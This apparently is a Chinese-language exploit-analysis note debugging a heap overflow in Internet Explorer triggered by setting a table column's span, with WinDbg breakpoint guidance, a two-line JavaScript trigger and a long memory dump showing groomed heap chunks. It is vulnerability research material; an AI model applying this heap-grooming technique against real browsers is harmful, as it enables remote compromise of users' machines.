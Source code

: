 

原理先是介绍了,我们需要看下实际中内存布局,为了方便查看,我在原来的exploit代码里面加上了Math.atan(0);需要说明的是,输出这么多的内存分配释放是很卡的,所以建议第一次的时候完整输出,后面就可以选择输出了

我们需要输出ntdll!RtlAllocateHeap 分配 E A B Cbutton的内存情况

我们需要输出ntdll!RtlFreeHeap 释放 E 的情况

我们需要输出CImplAry::EnsureSizeWorker的内存分配情况

同时我们需要断在jscript!atan,方便我们观看前面三块的数据

具体的调试在1.log中,可以查看下log,还是很容易看懂内存布局的,当下面代码执行后

```javascript
var obj_col = document.getElementById("132");
obj_col.span = 19;
```

此时的内存布局

```a&#39;s&#39;m
0:005> db 0x031d6368  L31c
031d6368  04 10 00 00 04 10 00 00-04 10 00 00 00 00 00 00  ................
031d6378  45 00 45 00 41 00 45 00-48 00 01 00 04 10 00 00  E.E.A.E.H.......
031d6388  04 10 00 00 04 10 00 00-00 00 00 00 45 00 45 00  ............E.E.
031d6398  41 00 45 00 48 00 01 00-04 10 00 00 04 10 00 00  A.E.H...........
031d63a8  04 10 00 00 00 00 00 00-45 00 45 00 41 00 45 00  ........E.E.A.E.
031d63b8  48 00 01 00 04 10 00 00-04 10 00 00 04 10 00 00  H...............
031d63c8  00 00 00 00 45 00 45 00-41 00 45 00 48 00 01 00  ....E.E.A.E.H...
031d63d8  04 10 00 00 04 10 00 00-04 10 00 00 00 00 00 00  ................
031d63e8  45 00 45 00 41 00 45 00-48 00 01 00 04 10 00 00  E.E.A.E.H.......
031d63f8  04 10 00 00 04 10 00 00-00 00 00 00 45 00 45 00  ............E.E.
031d6408  41 00 45 00 48 00 01 00-04 10 00 00 04 10 00 00  A.E.H...........
031d6418  04 10 00 00 00 00 00 00-45 00 45 00 41 00 45 00  ........E.E.A.E.
031d6428  48 00 01 00 04 10 00 00-04 10 00 00 04 10 00 00  H...............
031d6438  00 00 00 00 45 00 45 00-41 00 45 00 48 00 01 00  ....E.E.A.E.H...
031d6448  04 10 00 00 04 10 00 00-04 10 00 00 00 00 00 00  ................
031d6458  45 00 45 00 41 00 45 00-48 00 01 00 04 10 00 00  E.E.A.E.H.......
031d6468  04 10 00 00 04 10 00 00-fa 00 00 00 41 00 41 00  ............A.A.
031d6478  41 00 41 00 48 00 01 00-04 10 00 00 04 10 00 00  A.A.H...........
031d6488  04 10 00 00 41 00 41 00-41 00 41 00 41 00 41 00  ....A.A.A.A.A.A.
031d6498  48 00 01 00 04 10 00 00-04 10 00 00 04 10 00 00  H...............
031d64a8  41 00 41 00 41 00 41 00-41 00 41 00 48 00 01 00  A.A.A.A.A.A.H...
031d64b8  04 10 00 00 04 10 00 00-04 10 00 00 41 00 41 00  ............A.A.
031d64c8  41 00 41 00 41 00 41 00-48 00 01 00 04 10 00 00  A.A.A.A.H.......
031d64d8  04 10 00 00 04 10 00 00-41 00 41 00 41 00 41 00  ........A.A.A.A.
031d64e8  41 00 41 00 48 00 01 00-04 10 00 00 04 10 00 00  A.A.H...........
031d64f8  04 10 00 00 41 00 41 00-41 00 41 00 41 00 41 00  ....A.A.A.A.A.A.
031d6508  48 00 01 00 04 10 00 00-04 10 00 00 04 10 00 00  H...............
031d6518  41 00 41 00 41 00 41 00-41 00 41 00 48 00 01 00  A.A.A.A.A.A.H...
031d6528  04 10 00 00 04 10 00 00-04 10 00 00 41 00 41 00  ............A.A.
031d6538  41 00 41 00 41 00 41 00-48 00 01 00 04 10 00 00  A.A.A.A.H.......
031d6548  04 10 00 00 04 10 00 00-41 00 41 00 41 00 41 00  ........A.A.A.A.
031d6558  41 00 41 00 48 00 01 00-04 10 00 00 04 10 00 00  A.A.H...........
031d6568  04 10 00 00 41 00 00 00-7e d8 87 77 00 00 00 88  ....A...~..w....
031d6578  48 00 01 00 42 00 42 00-42 00 42 00 42 00 42 00  H...B.B.B.B.B.B.
031d6588  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d6598  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d65a8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d65b8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d65c8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d65d8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d65e8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d65f8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d6608  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d6618  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d6628  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
```